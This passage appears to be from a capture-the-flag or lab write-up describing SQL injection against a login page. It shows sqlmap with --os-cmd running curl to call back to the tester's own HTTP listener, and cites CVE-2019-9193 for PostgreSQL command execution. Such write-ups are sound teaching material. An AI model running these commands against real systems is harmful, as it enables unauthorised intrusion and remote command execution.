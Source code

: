 I decided to run sqlmap to perform a little more comprehensive test against the login page, and it identified that stacked queries were possible.

![2021-08-22_11-03.png](assets/2021-08-22_11-03.png)

I re-ran sqlmap with the --os-cmd parameter which allows for os commands to be executed. First I tried ping, but I wasn't getting a response so I tried setting up a simple python http server listening on port 80 and used curl to make a command back to my box on port 80 - that worked. 

```
sudo python3 -m http.server 80
proxychains sqlmap -r login.req --os-cmd "curl -X GET http://10.10.14.15/callback"
```

![2021-08-22_13-35.png](assets/2021-08-22_13-35.png)

I decided I wanted to take a more manual approach. 

> I came across this [blog](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5) which explains how a vulnerability ([CVE-2019-9193](https://nvd.nist.gov/vuln/detail/CVE-2019-9193)) can be exploited to gain arbitrary code execution. The code excution stems from new functionality that was added to Postgres that allows any user in the "pg_execute_server_program" group to run arbitrary OS commands - think xp_cmdshell.  
